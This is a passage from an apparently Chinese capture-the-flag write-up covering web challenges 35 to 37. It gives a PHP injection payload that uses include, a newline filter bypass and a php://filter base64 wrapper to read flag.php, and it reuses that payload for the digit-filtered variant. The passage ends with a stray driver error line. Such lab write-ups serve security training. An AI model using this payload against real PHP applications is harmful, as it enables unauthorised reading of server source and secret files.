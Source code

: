 修改下上面的payload,把$b=去掉就可以 /?c=include%0a$_GET[a]?>&a=php://filter/read=convert.base64-encode/resource=flag.php

![web35_flag](./image/web35_flag.png)

## Web36

题目：新增过滤[0-9]数字

![web36_timu](./image/web36_timu.png)

依然用上面的payload /?c=include%0a$_GET[a]?>&a=php://filter/read=convert.base64-encode/resource=flag.php

## Web37


[ERROR]: could not find driver